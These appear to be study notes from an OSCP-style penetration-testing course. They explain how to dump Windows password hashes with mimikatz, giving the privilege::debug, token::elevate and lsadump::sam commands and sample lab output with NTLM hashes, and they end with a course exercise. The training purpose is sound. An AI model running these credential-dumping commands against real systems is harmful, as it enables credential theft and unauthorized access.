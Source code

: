 • Among other things, mimikatz modules facilitate password hash extraction from the Local SecurityAuthority Subsystem (LSASS)576 process memory where they are cached.
  
•  Since LSASS is a privileged process running under the SYSTEM user, we must launch mimikatz from an administrative command prompt. 
  
•  To extract password hashes, we must first execute two commands. 


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/68.jpg)


• The first is privilege::debug, which enables the SeDebugPrivilge access right required to tamper with another process.
  
•   If this commands fails, mimikatz was most likely not executed with administrative privileges.
• 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/69.jpg)

IF LAUNCHED FROM SYSTEM SHELL DOESNOT REQUIRED
   
•  It’s important to understand that LSASS is a SYSTEM process, which means it has even highe rprivileges than mimikatz running with administrative privileges.
   
    
• To address this, we can use thetoken::elevate command to elevate the security token from high integrity (administrator) to SYSTEM integrity.

• If mimikatz is launched from a SYSTEM shell, this step is not required.
• 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/19/70.jpg)

mimikatz # lsadump::sam
Domain : CLIENT251
SysKey : 457154fe3c13064d8ce67ff93a9257cf
Local SID : S-1-5-21-3426091779-1881636637-1944612440
SAMKey : 9b60bd58cdfd663166e8624f20a9a6e5
RID : 000001f4 (500)
User : Administrator
RID : 000001f5 (501)
User : Guest
RID : 000001f7 (503)
User : DefaultAccount
RID : 000001f8 (504)
User : WDAGUtilityAccount
 Hash NTLM: 0c509cca8bcd12a26acf0d1e508cb028
RID : 000003e9 (1001)
User : Offsec
 Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
• Let’s step through this process now:
19.4.1.1 Exercises

(Reporting is not required for these exercises)

1. Identify the password hash version used in your Kali system.
